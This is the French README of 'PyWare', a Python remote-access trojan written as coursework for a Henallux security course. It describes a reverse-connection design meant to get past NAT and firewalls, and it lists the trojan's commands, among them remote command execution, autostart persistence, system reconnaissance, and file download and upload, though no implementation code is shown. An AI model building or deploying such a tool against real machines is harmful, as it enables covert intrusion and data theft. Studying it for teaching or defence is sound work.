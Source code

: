 # PyWare
## Introduction
PyWare est un petit malware écrit en python. Il rentre dans le cadre du cursus de sécurité des système de la [Henallux](https://www.henallux.be/). En particulier le cours R209: Developpement donné en deuxième bachelier.

PyWare ne se charge pas de l'infection et part du postula que la victime est déjà infecté pour le démarrage de PyWare.

## Prérequis
L'ensemble des programmes ont été écrit et testé avec [Python](https://www.python.org) [3.7.2](https://www.python.org/downloads/release/python-372/) . Celui-ci est nécessaire sur les deux machines et de préférence ajouté à la variable d'environnement PATH. De plus, le module [PyCryptodome](https://pycryptodome.readthedocs.io) est nécessaire sur le serveur de l'attaquant. Si le module n'est pas présent sur la victime, une fonctionnalité de PyWare l'intalle.

## Architecture
L'attaquant fait office de serveur et attant la connection depuis la victime. La victime, de son côté, essaye une connection vers l'un des serveur de l'attaquant à un interval de temps déterminer. Cette solution permet de s'affranchir des informations de connection de la victime. De plus, elle permet de contourner les problèmes lié au NAT et Firewall. Une fois la connection établie, un shell intéractif est ouvert côté attanquant et les diverses commandes acceptable sont ensuite transféré à la victime. Le retour de la commande est renvoyé à l'attaquant et est affichée.

## Fonctionnement
- Attaquant
  - PyWareGen : Générateur du fichier de configuration listant les différents serveurs que l'attaquant peut utiliser, ainsi que leurs informations de connection.
  - PyWareServ : Serveur de connection. Il attend une connection de la victime puis ouvre un shell intérectif.
- Victime
  - Malware : Client de connection vers le serveur. Il essaye d'ouvrir une connection vers celui-ci à partir du fichier de configuration. Le nom du fichier est laissé libre à l'utilisateur. Il nécéssite aussi le fichier *crypto.py*.
  - Configuration : Fichier de configuration regroupant 

## Fonctionnalitées
### Fonctions de bases
 - exit : Termine la connection entre les deux machines et ferme le programme côté attaquant. Par contre, PyWare continue de tourner sur la cible et retente une connection vers le serveur sélectionnné à un interval de temps déterminer dans le fichier de configuration. Pour arrêter le programme sur les deux machines, utilisez la commande *kill*.
 - kill : Termine la connection et ferme les programmes des deux côtés.
 - quit : Alias de la commande *exit*.

### Fonctions côté serveur
Ces fonctionnalitée ne sont exécuté que du côté du serveur et ne transmet rien à la victime. 
 - help \[commands,\]: Affiche les différentes commandes demandé par l'utilisteur, ainsi qu'une brêve explications de chacun d'elles. Si aucune commande n'est fournis, il affiche alors toutes les commandes disponibles.
 - list : List les différentes commandes disponibles


                                   "/pwd": command_tuple(lambda: self.local_pwd(),
                                                         "/pwd",
                                                         "Get the current working directory on the local machine."),
                                   "/cd": command_tuple(lambda arg="": self.local_cd(arg),
                                                        "/cd Dir",
                                                        "Change the working directory to \'Dir\'"
                                                        " on the local machine."),
                                   "/ls": command_tuple(lambda arg="": self.local_ls(arg),
                                                        "/ls [Dir]",
                                                        "List files and directory of \'Dir\'  on the local machine."
                                                        " If \'Dir\' is not specify, list the current directory."),
                                   "/dir": command_tuple(lambda arg="": self.local_ls(arg),
                                                         "/dir [Dir]",
                                                         "Alias for \'/ls\'."),
                                   "getinfo": command_tuple(lambda arg="": self.getinfo(arg),
                                                            "getinfo [options,]",
                                                            "Get information from the victim. Options available : "
                                                            "user, hostname, fqdn, ip, os, version, architecture, "
                                                            "language, time"),
                                   "autostart": command_tuple(lambda arg="": self.autostart(arg),
                                                              "autostart [Name]",
                                                              "PyWare on client starts automatically."
                                                              " [Name] is the name used for the registration"),
                                   "newkeys": command_tuple(lambda: self.newkeys(),
                                                            "newkeys",
                                                            "Generate and use a new session key."),
                                   "exec": command_tuple(lambda arg="": self.exec(arg),
                                                         "exec command",
                                                         "Execute a command on the client and print result."
                                                         " Warning, it is an integrative mode."),
                                   "getusers": command_tuple(lambda: self.getusers(),
                                                             "getusers",
                                                             "List all users on the ditant system."),
                                   "installmodules": command_tuple(lambda: self.install_modules(),
                                                                   "installmodules",
                                                                   "Install the python modules for full compatibility."
                                                                   " A reload is needed after."),
                                   "reload": command_tuple(lambda: self.reload(),
                                                           "reload",
                                                           "Reload the client on the target."),
                                   "getservices": command_tuple(lambda: self.getservices(),
                                                                "getservicse",
                                                                "Get the list of the running services."),
                                   "ps": command_tuple(lambda: self.getservices(),
                                                       "ps",
                                                       "Alias for getservices"),
                                   "pwd": command_tuple(lambda: self.pwd(),
                                                        "pwd",
                                                        "Get the current working directory."),
                                   "cd": command_tuple(lambda arg="": self.cd(arg),
                                                       "cd Dir",
                                                       "Change the working directory to \'Dir\' ."),
                                   "ls": command_tuple(lambda arg="": self.ls(arg),
                                                       "ls [Dir]",
                                                       "List files and directory of \'Dir\' . If \'Dir\'"
                                                       " is not specify, list the current working directory."),
                                   "dir": command_tuple(lambda arg="": self.ls(arg),
                                                        "dir [Dir]",
                                                        "Alias for \'ls\'."),
                                   "download": command_tuple(lambda arg="": self.download(arg),
                                                             "download File",
                                                             "Download from the target to local computer."),
                                   "upload": command_tuple(lambda arg="": self.upload(arg),
                                                           "upload File",
                                                           "Upload file to the server")}

                                                         
## Algorithmique
Pour comprendre comment fonctionne les différentes fichiers, veuillez vous référer au fichier [algorithmique.md](algorithmique.md).

## Références
